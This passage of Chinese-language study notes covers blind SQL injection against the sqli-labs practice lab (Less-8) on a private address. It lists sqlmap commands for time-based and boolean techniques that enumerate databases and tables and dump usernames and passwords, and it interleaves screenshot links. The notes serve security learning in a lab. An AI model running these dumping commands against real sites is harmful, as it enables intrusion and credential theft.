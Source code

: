 #### 时间盲注

`--technique T` 设置为只基于**时间**的探测技术

```
sqlmap -u "http://192.168.70.14:8088/Less-8/?id=1" --batch --purge --technique T --dbs 
sqlmap -u "http://192.168.70.14:8088/Less-8/?id=1" --batch --purge --technique T -D security --tables
sqlmap -u "http://192.168.70.14:8088/Less-8/?id=1" --batch --purge --technique T -D security -T users --column  
sqlmap -u "http://192.168.70.14:8088/Less-8/?id=1" --batch --purge --technique T -D security -T users -C id,username,password --dump
```

![image-20240805155216896](../../../../repo/assets/19.SQL注入/image-20240805155216896.png)

![image-20240805155246875](../../../../repo/assets/19.SQL注入/image-20240805155246875.png)

![image-20240805163923618](../../../../repo/assets/19.SQL注入/image-20240805163923618.png)

![image-20240805164107098](../../../../repo/assets/19.SQL注入/image-20240805164107098.png)



```
sqlmap -u "http://192.168.70.14:8088/Less-8/?id=1" --batch --purge --technique T --proxy "http://127.0.0.1:8080" --dbs
```



#### 布尔盲注

`--technique B` 布尔盲注

```
sqlmap -u "http://192.168.70.14:8088/Less-8/?id=1" --batch --purge --technique B --dbs 
sqlmap -u "http://192.168.70.14:8088/Less-8/?id=1" --batch --purge --technique B -D security --tables
sqlmap -u "http://192.168.70.14:8088/Less-8/?id=1" --batch --purge --technique B -D security -T users --column  
sqlmap -u "http://192.168.70.14:8088/Less-8/?id=1" --batch --purge --technique B -D security -T users --dump
```

![image-20240805154600662](../../../../repo/assets/19.SQL注入/image-20240805154600662.png)

![image-20240805154628543](../../../../repo/assets/19.SQL注入/image-20240805154628543.png)

![image-20240805154700302](../../../../repo/assets/19.SQL注入/image-20240805154700302.png)

![image-20240805154750494](../../../../repo/assets/19.SQL注入/image-20240805154750494.png)

### **二、利用** **sqlmap** **探测** **post** **盲注**

